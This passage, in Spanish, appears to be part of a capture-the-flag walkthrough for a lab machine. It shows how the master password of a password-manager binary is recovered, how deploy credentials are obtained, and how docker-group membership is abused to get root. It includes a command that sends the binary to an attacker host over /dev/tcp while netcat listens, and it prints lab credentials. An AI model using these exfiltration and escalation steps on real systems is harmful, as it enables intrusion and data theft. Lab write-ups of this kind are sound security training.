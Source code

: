La contraseña es ***Sample*** (*Please enter your master password: SampleAccess granted!*).

**Opción 2**. Podemos traernos el binario a nuestra máquina de atacante e **inspeccionarlo** con ***ghidra***. Para transferirlo, en la **máquina víctima** escribiremos el siguiente comando:

```bash
cat password-manager > /dev/tcp/<IP>/<Puerto> 
```

En la máquina de atacante nos pondremos en escucha para recibirlo:

```bash
sudo nc -nlvp 443 > password-manager
```

A continuación lo abrimos con ***ghidra***, que es una herramienta para inspeccionar binarios:

![imagen 9](Pasted image 20230111161811.png)

Podemos ver la cadena ***Sample***.

#### Credenciales de deploy 

Si introducimos como contraseña ***Sample***:

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

Credenciales ***deploy:Deploying@pp!***. Con `su deploy` y posteriormente `Deploying@pp!`, pivotaremos a este usuario.

## Shell como root

### Reconocimiento del sistema

#### Grupos de deploy

Para visualizar los grupos asignados a *deploy*, podemos utilizar el comando `id`:

```bash
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

Formamos parte del grupo ***Docker***. Formando parte de este grupo, existe una manera de montar la raíz del sistema en un contenedor, teniendo así acceso a toda la máquina como *root*.

#### Explotación grupo Docker

En [GTFObins](https://gtfobins.github.io/gtfobins/docker/#shell) tenemos una forma de *spawnearnos* una shell como *root*:
